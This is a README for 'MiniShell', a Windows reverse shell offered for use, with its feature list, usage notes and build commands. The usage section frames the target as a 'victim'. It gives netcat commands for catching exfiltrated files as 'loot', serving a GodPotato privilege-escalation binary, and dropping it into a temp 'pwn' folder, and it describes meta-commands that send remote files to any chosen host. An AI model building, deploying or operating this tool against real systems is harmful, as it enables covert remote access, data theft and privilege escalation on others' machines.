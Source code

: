 # MiniShell
A reverse shell for Windows systems that brings some convenience features.
Among them are:
+ file transfer
+ automatic reconnection attempt on connection loss
+ easy duplication of established shells
+ easy choice/switch between `cmd` and `powershell` command interpreter
+ features can be chosen at build time (can be stripped down to a minimal shell without extra features)

# Usage
`MiniShell` provides so-called meta-commands. These start with a colon (":"). Currently the supported meta-commands are:
+ `:exit` - kill the shell (it doesn't come back)
+ `:dup [[<host>] <port>]` - send a duplicate of the current shell (default to the same endpoint it is already connected to)
+ `:c ps` - connect to a new `powershell` command interpreter (useful if current command hangs)
+ `:c cmd` - same as above but with `cmd`
+ `:get [[<host>] <port>] <reomote-file>` - read the contents of `<remote-file>` and send it to `host:port` (by default the same endpoint already connected to)
  + e.g. catch file on attack host like this: `nc -l 80 > myLoot.txt`
+ `:put [[<host>] <port>] <remote-file>`
  + e.g. send file like this: `cat GodPotato-NET4.exe | nc -q 1 -lp 80`
  + then retrieve file on victim like this `:put C:\windows\temp\pwn\GodPotato.exe` (assuming your shell is connected to port `80`, otherwise specify port)

# Build
+ using Visual Studio 2022

## .NET executable
+ preferably set target framework at `net46` since this should work for most Windows 10 and newer system out of the box

### Build release version (recommended)
+ smaller than debug
+ debug output disabled (doesn't matter much for regular use)
```
MSBuild.exe .\MiniShell.sln /p:Configuration=Release
```
### Build debug version
```
MSBuild.exe .\MiniShell.sln /p:Configuration=Debug
```

## Native executable
+ should work on Windows systems without .NET runtime (pre Windows 10), but binaries are much larger than .NET binaries
+ uses the ahead-of-time compilation feature of .NET 7+ (https://learn.microsoft.com/en-us/dotnet/core/deploying/native-aot/?tabs=net7%2Cwindows)
+ set target framework to `net8` (in `MiniShell.csproj`) before building


### Build release version (recommended)
+ recommended since it saves about half in size
```
dotnet publish -r win-x64 -c Release -f net8 -p:PublishAot=true --self-contained
```

### Build debug version
```
dotnet publish -r win-x64 -c Debug -f net8 -p:PublishAot=true --self-contained
```
